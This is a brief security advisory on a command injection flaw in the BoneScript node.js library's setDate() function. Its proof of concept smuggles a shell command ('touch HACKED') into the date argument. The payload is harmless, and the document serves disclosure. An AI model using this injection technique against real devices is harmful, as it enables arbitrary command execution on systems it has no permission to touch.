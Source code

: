 # Overview
[BoneScript](https://github.com/jadonk/bonescript) is a node.js library for physical computing on embedded Linux, starting with support for BeagleBone.

Affected versions of this package are vulnerable to Command Injection. It is possible to inject arbitrary commands by using a semicolon char in the `setDate()` function.

# Proof of Concept
```js
var b = require('bonescript');

b.setDate('"; touch HACKED; #//', function(error, resp){
    console.log(resp);
});
```
